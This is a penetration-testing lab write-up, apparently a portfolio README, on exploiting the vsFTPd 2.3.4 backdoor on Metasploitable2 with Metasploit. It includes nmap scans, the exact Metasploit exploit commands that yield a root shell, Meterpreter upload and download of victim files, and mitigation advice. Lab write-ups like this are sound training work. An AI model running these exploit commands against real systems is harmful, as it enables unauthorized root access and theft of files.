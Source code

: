 # 🔐 System Hacking – Gaining Access to a Vulnerable Machine

## 🧠 Objective
This ethical hacking project simulates a real-world exploitation scenario where a penetration tester targets a vulnerable system (Metasploitable2) using the Metasploit Framework. The objective is to identify susceptible services, exploit them, gain shell access, escalate privileges, and demonstrate basic post-exploitation actions.

---

## 🛠️ Tools Used

- **Kali Linux**
- **Metasploit Framework**
- **Metasploitable2 (vulnerable target machine)**
- `nmap`, `whoami`, `uname`, `ls`, and other Linux commands

---

## 🛰️ Scanning and Enumeration

**1) General nmap scan (to feel around)**
```bash
nmap <target-IP>
```

![Nmap Scan](images/nmap-scan.png)

**2) Detailed nmap scan to see services and versions**
- Discovered open port: `21/tcp` (FTP)
- Service detected: `vsFTPd 2.3.4` — a known vulnerable service with a backdoor.

```bash
nmap -A -sV <target-IP>
```

![Nmap Scan2](images/nmap-version-scan1.png)
![Nmap Scan2](images/nmap-version-scan2.png)
![Nmap Scan2](images/nmap-version-scan3.png)

---

## 💣 Exploitation Process

**1) Exploit Module Used:**

```
exploit/unix/ftp/vsftpd_234_backdoor
```

![Search Exploit](images/search-exploit.png)


**2) Metasploit Commands:**

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST <target-IP>
set RPORT 21
run
```

📍 Successfully spawned a root-level shell:
```
[*] Command shell session 1 opened
```

![Exploit](images/exploit.png)

---

## 🧪 Post-Exploitation

- Verified root access with `whoami` → `root`

![Exploit](images/verify-root-access.png)


- Navigated file system, listed directories

![Exploit](images/file-navigation.png)


- Transferred files from attacker to victim using the Meterpreter `upload` command

![Exploit](images/upload1.png)


- Downloaded victim's files back to Kali using the `download` command

![Exploit](images/download1.png)
![Exploit](images/download2.png)

---

## ⚠️ Challenges Faced & Resolutions

| Challenge | Solution |
|----------|----------|
| No internet access in Kali VM | Switched VM network adapter from Host-Only to NAT |
| Metasploit exploit failed to recreate session after closing | Rebooted Metasploitable2 to restart vulnerable FTP service |
| Upload error in normal shell | Upgraded to Meterpreter for advanced file interaction |
| Difficulty identifying active sessions | Used `sessions -i <id>` instead of `sessions` |
| Command confusion between shell and Meterpreter | Ensured proper shell upgrade and command context awareness |

---

## ✅ Result/Outcome

Successfully gained root-level access to the target machine, demonstrated file transfer techniques post-exploitation, and documented how to secure systems against such attacks.

---

## 🛡️ Mitigation Recommendations

To prevent exploitation of similar vulnerabilities in a production environment:

- Always keep services and operating systems updated.
- Replace outdated or unsupported software.
- Disable unnecessary services and ports.
- Use firewalls to control inbound/outbound traffic.
- Enforce least privilege and proper user access controls.
- Regularly scan systems for known vulnerabilities.

---

## 🧠 Author
Francis Uramah

Date created: 24/04/2025
